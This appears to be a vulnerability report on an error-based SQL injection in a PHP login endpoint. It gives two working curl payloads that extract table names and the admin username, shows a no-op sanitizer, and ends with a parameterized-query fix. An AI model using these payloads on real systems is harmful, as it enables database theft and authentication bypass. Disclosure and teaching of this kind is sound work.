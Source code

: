 ## Steps to Reproduce
1. Database Enumeration:
```bash
curl -X POST "http://localhost/includes/login.inc.php" \
--data "uid=KASj' AND EXTRACTVALUE(4537,CONCAT(0x5c,(SELECT MID((IFNULL(CAST(table_name AS NCHAR),0x20)),1,18) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema IN (0x736563757265617070646576) LIMIT 2,1)))-- WpHM&pwd=balls&submit="
```
This reveals the table name 'sapusers' from the secureappdev database.

2. Data Extraction:
```bash
curl -X POST "http://localhost/includes/login.inc.php" \
--data "uid=idkmanihatemylife' AND (SELECT 5207 FROM(SELECT COUNT(*),CONCAT((SELECT MID((IFNULL(CAST(user_uid AS NCHAR),0x20)),1,51) FROM secureappdev.sapusers ORDER BY user_id LIMIT 0,1),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- random&pwd=poop&submit=luvyou"
```
This extracts the first username ('admin') from the sapusers table with 1 appended from the rand() function.

## Vulnerability Analysis
The vulnerability exists because:
1. User input is directly concatenated into the SQL query without sanitization
2. The application uses error-based SQL injection, revealing database information through error messages
3. The `cleanChars()` function does not prevent SQL injection:
   ```php
   function cleanChars($val) {
       return $val;
   }
   ```
4. The application reveals detailed error messages that aid in exploitation

## Impact
- Complete database enumeration possible
- Extraction of sensitive user data
- Authentication bypass
- Potential for:
  - Credential theft
  - Privilege escalation
  - Data manipulation
  - Complete database compromise

## Mitigation Strategy
1. Implement parameterized queries:
   ```php
   $sql = "SELECT * FROM sapusers WHERE user_uid = ? AND user_pwd = ?";
   $stmt = $conn->prepare($sql);
   $stmt->bind_param("ss", $uid, $pwd);
   $stmt->execute();
   ```
